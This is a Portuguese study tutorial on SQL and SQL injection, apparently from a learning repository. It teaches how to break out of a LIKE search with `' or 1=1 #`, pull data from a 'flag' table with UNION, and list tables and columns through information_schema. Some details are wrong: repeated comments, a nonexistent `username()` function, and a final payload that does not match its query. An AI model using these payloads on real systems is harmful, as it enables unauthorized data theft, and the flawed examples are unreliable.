 Se trata da utilização de um dado submetido pelo usuário sem o devido tratamento. Possibilitando assim a injeção de comandos no banco de dados tanto SQL quanto NoSQL.

## Comandos

### CRUD
Existem vários comandos no SQL mas os mais comuns são os chamados CRUD (CREATE, READ, UPDATE, DELETE) representados pelos comandos:

- **``INSERT``** - Insere registros no banco de dados.
- **``SELECT``** - Retorna informações do banco de dados.
- **``UPDATE``** - Atualiza os registros no banco de dados.
- **``DELETE``** - Deleta os registros do banco de dados.

``INSERT INTO <table_name> (<column>, <column>) VALUES (>value>, <value>);``

`SELECT <column>,<column> FROM <table_name>`;

`UPDATE <table_name> SET <column> = <value> WHERE <key_name> = <key_name>;`

`DELETE FROM <table_name> WHERE <key_name> = <key_name>;`
#### Exemplos
```sql
INSERT INTO users(name,password) VALUES ("Nycolas","n!c0l4s");

SELECT name,password FROM users WHERE name = "Nycolas";

UPDATE users SET name = "Nycolas Ramos" WHERE name = "Nycolas";

DELETE FROM user WHERE name = "Atylas";
```

### Comentários
Podemos comentar tanto somente uma linha quanto um bloco de código.

- **`--`** : Comenta uma linha de código.
- `#` : Comenta uma linha de código.
- `/* */` : Comenta um bloco de código.

#### Comentários
```sql
-- INSERT INTO users(name,password) VALUES ("Nycolas","n!c0l4s");

# SELECT name,password FROM users WHERE name = "Nycolas";

/*UPDATE users SET name = "Nycolas Ramos" WHERE name = "Nycolas";

DELETE FROM user WHERE name = "Atylas";
*/

SELECT name,password FROM users WHERE name = "Nycolas";
```

## UNION
Podemos unir querys com o union.

```sql
SELECT name,password FROM users union select name FROM flag;
```
Aqui além de trazer os campos `name` e `password` da tabela `users` ele irá trazer o campo `name` da tabela `flag`. Ao fazer a união, é interessante que retornemos a mesma quantidade de campos dos dois lados.

Para realizar isso, podemos colocar valores como números para serem retornados.
```sql
SELECT name,password FROM users union select name,1 FROM flag;
```

## Injection

### ORDER BY
É importante sabermos quantos campos tem a nossa tabela, podemos descobrir isso com a ordenação.

Com esse método vamos por acerto e erro. Vamos ordenando at achar um número que não nos retorna os registros´, então encontramos o limite da tabela.
#### Código
```sql
SELECT name, description FROM products ORDER BY 1;
-- Aqui ordenamos pela primeira coluna;

SELECT name, description FROM products ORDER BY 2;
-- Aqui ordenamos pela primeira coluna;

SELECT name, description FROM products ORDER BY 3;
-- Aqui ordenamos pela primeira coluna;
```

### Prática
Digamos que temos um input de pesquisa  de produtos que realiza a seguinte querie : 

```sql
SELECT name,description FROM products WHERE name LIKE '%<USER INPUT>%';
```

Caso não haja o tratamento adequado do input podemos fechar essa condição e inserir uma nova e alterar as queries : 

**Input normal**
<input style="width:100%;padding:5px;font-size:18pt;" value="notebook">
```sql
SELECT name,description FROM products WHERE name LIKE '%notebook%';
```

**SQL INJECTION**
<input style="width:100%;padding:5px;font-size:18pt;" value="não existe' or 1=1 # ">
```sql
SELECT name,description FROM products WHERE name LIKE '%não existe' or 1=1 # %';
```
Com essa querie retornamos todos os itens do banco de dados;

**SQL INJECTION**
<input style="width:100%;padding:5px;font-size:18pt;" value="' or 1=1 union SELECT name,2 FROM flag;# ">
```sql
SELECT name,description FROM products WHERE name LIKE '' or 1=1 union SELECT name,2 FROM flag;# ';
```
Aqui conseguimos retornar o campo nome da tabela flag;

### Informações
Podemos obter algumas informações do próprio banco de dados com algumas funções;

- **`database()`** - Retorna a database atual;
- **`username()`** - Retorna o usuário da conexão do banco de dados.
- **`@@version`** - Retorna a versão do banco de dados;

### Nome das tabelas
Podemos descobrir o nome das tabelas dos bancos;

```sql
SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema = 'cyber';
```
Assim conseguimos retornar o nome de todas as tabelas do banco de dados `cyber`.

```sql
SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE table_name = 'flag';
```
Assim retornamos o nome de todas as colunas da tabela ``flag``.

**SQL INJECTION**
<input style="width:100%;padding:5px;font-size:18pt;" value="' or 1=1 union SELECT information_schema.COLUMNS,2 WHERE table_name = 'flag';# ">

```sql
SELECT name,description FROM products WHERE name LIKE '' or 1=1 union SELECT COLUMN_NAME,2 FROM flag;# ';
```
